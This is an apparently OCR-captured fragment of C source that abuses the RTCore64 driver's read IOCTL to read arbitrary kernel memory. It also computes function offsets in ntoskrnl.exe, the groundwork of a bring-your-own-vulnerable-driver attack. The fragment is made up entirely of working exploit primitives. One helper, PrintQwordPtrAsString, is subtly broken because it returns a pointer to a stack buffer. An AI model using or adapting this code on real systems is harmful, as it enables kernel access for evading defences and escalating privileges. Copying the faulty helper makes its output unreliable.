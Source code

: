```c

	DeviceIoControl(
		hDevice,
		RTCORE_READ_IOCTL,
		&MemRead,
		sizeof(MemRead),
		&MemRead,
		sizeof(MemRead),
		&BytesReturned,
		NULL
	);

	return MemRead.Value & 0xffff;
}

DWORD ReadMemoryDWORD(HANDLE hDevice, DWORD64 Address) {
	RTCORE64_BUFFER MemRead = { 0 };
	MemRead.Address = Address;
	MemRead.ReadSize = 4;

	DWORD BytesReturned;

	DeviceIoControl(
		hDevice,
		RTCORE_READ_IOCTL,
		&MemRead,
		sizeof(MemRead),
		&MemRead,
		sizeof(MemRead),
		&BytesReturned,
		NULL
	);

	return MemRead.Value;
}

DWORD64 ReadMemoryDWORD64(HANDLE hDevice, DWORD64 Address)
{
    return ((DWORD64)ReadMemoryDWORD(hDevice, Address + 4) << 32) |
           ReadMemoryDWORD(hDevice, Address);
}

char* PrintQwordPtrAsString(DWORD64 value) {
	char buf[9]; // 8 chars + null terminator
	for (int i = 0; i < 8; i++) {
		buf[i] = (value >> (i * 8)) & 0xFF;
	}
	buf[8] = '\0';
	
	return buf;
}

// Thanks @EricEsquivel :)
DWORD64 GetFunctionOffsetFromNtoskrnl(char* FunctionName)
{
	HMODULE Ntoskrnl = LoadLibraryA("ntoskrnl.exe");
	DWORD64 GetFunctionOffset = (DWORD64)(GetProcAddress(Ntoskrnl, FunctionName)) - (DWORD64)Ntoskrnl;

	printf("[+] %s offset from Ntoskrnl base: 0x%llx\n", FunctionName, GetFunctionOffset);

	FreeLibrary(Ntoskrnl);

```